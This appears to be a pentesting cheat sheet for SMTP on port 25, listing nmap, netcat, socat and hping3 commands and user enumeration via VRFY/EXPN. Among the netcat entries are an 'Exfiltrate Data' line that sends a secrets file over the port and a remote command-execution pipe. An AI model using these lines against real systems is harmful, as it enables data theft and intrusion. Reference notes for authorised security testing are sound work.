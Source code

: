 #### \[\[Nmap]]

*   **Basic Nmap Scan:** Scan target on specified port to verify if service is on.

    ```bash
    nmap <target_ip> -p 25
    ```

#### \[\[NetCat]]

*   **Netcat TCP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 25
    ```
*   **Netcat UDP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 25 -u
    ```
*   **Execute Commands:** Execute commands on target.

    ```bash
    echo "<command>" | nc <target_ip> 25
    ```
*   **Exfiltrate Data:** Exfiltrate data over specified port.

    ```bash
    nc <target_ip> 25 < secret_data.txt
    ```
*   **Send Email:** Automating SMTP interactions for testing or exploitation.

    ```bash
    echo -e "EHLO example.com\nMAIL FROM:<sender@example.com>\nRCPT TO:<recipient@example.com>\nDATA\nSubject: Test\n\nThis is a test email.\n.\nQUIT" | nc <target_ip> 25
    ```

#### \[\[SoCat Cheat Sheet]]

*   **Socat TCP Connect:** Simple test to verify port service is running and responding.

    ```bash
    socat - TCP:<target_ip>:25
    ```

#### \[\[HPing3 Cheat Sheet]]

*   **Send UDP Packet:** Send a single UDP packet to the service.

    ```bash
    hping3 -2 <target_ip> -p 25 -c 1
    ```

#### \[\[SMTP-User-Enum]]

*   **Enumeration:** Enumerating valid email addresses or usernames on a target SMTP server by exploiting the `VRFY` and `EXPN` commands.

